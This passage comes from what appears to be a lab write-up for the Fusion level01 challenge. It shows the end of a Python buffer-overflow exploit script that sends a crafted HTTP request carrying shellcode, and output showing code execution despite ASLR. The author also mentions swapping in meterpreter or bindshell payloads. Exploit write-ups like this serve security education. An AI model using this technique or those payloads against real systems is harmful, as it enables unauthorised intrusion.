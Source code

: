 ```
        s = socket(AF_INET, SOCK_STREAM)
        try:
                print "[*] Connecting to %s on port %s" % (hostname, port)
                s.connect((hostname, port))
        except:
                print "[*] Connection error"
                exit(1)

        s.send("GET " + junk + ret + esi + " HTTP/1.1" + nops + shellcode)


if __name__ == "__main__":
    parser = OptionParser("usage: %prog [options]")
    parser.add_option("-H", "--host", dest="hostname", default="127.0.0.1",
     type="string", help="Target to run against")
    parser.add_option("-p", "--port", dest="portnum", default=20001,
     type="int", help="Target port")

    (options, args) = parser.parse_args()

    exploit(options.hostname, options.portnum)
```

Now if we execute our exploit, it works just fine, bypassing ASLR and everything.

```
fusion@fusion:~$ ls -al /tmp
fusion@fusion:~$ ./level01.py
[*] Connecting to 127.0.0.1 on port 20001
fusion@fusion:~$ ls -al /tmp
total 8
drwxrwxrwt  2 root  root  4096 2012-07-03 23:32 .
drwxr-xr-x 22 root  root  4096 2012-05-07 21:53 ..
-rw-r--r--  1 20001 20001    0 2012-07-03 23:32 level01
```

There you have it. Our shellcode to "touch /tmp/level01" executed as the uid 20001.  That shellcode could then be replaced with something more malicious (read: meterpreter/bindshell) if desired.  But for PoC, that works.
